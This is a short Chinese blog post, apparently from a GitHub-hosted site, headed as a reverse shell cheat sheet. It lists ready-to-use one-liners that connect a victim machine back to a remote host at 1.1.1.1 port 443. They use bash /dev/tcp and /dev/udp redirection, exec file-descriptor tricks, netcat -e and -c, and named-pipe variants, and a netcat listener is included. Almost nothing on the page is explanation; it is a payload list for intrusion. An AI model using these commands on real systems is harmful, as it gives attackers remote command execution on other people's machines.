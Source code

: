 ```yaml
---
layout:     post
title:      反弹shell备忘录
subtitle:   各种反弹
date:       2020-04-29
author:     BugMan
header-img: img/post-bg-hacker.jpg
catalog: true
tags:
    - 反弹Shell
    - 渗透测试
---
```




# Bash TCP:

## Victim:

`bash -i >& /dev/tcp/1.1.1.1/443 0>&1`

`/bin/bash -i > /dev/tcp/1.1.1.1/443 0<& 2>&1`

`exec 5<>/dev/tcp/1.1.1.1/443;cat <&5 | while read line; do $line 2>&5 >&5; done`

`exec /bin/sh 0</dev/tcp/1.1.1.1/443 1>&0 2>&0`

`0<&196;exec 196<>/dev/tcp/1.1.1.1/443; sh <&196 >&196 2>&196`

# Bash UDP:

## Victim:

`sh -i >& /dev/udp/1.1.1.1/443 0>&1`

### Listener:

nc -u -lvp 443

### Netcat:

`nc -e /bin/sh 1.1.1.1 443`

`nc -e /bin/bash 1.1.1.1 443`

`nc -c bash 1.1.1.1 443`

`mknod backpipe p && nc 1.1.1.1 443 0<backpipe | /bin/bash 1>backpipe` 

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.1.1.1 443 >/tmp/f`

`rm -f /tmp/p; mknod /tmp/p p && nc 1.1.1.1 443 0/tmp/p 2>&1`
